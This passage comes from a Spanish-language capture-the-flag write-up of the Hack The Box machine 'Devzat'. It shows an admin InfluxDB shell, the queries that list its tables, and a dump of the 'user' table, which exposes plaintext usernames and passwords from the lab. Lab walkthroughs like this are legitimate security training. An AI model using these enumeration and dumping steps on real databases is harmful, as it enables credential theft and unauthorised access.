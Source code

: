 Veamos la info de `devzat`:

```bash
[admin@127.0.0.1] Database: 1

Starting InfluxDB shell - .back to go back
[admin@127.0.0.1/devzat] $
```

Para visualizar las tablas asociadas a esa base de datos:

```bash
[admin@127.0.0.1/devzat] $ SHOW measurements
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devzat/389bash_PY_influxDB_exploit_SHOWmeasurements.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Hay una sola tabla llamada `user`, para dumpear su contenido ejecutamos:

```bash
[admin@127.0.0.1/devzat] $ SELECT * FROM "user"
```

YyyyyiiiIi:

```json
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```
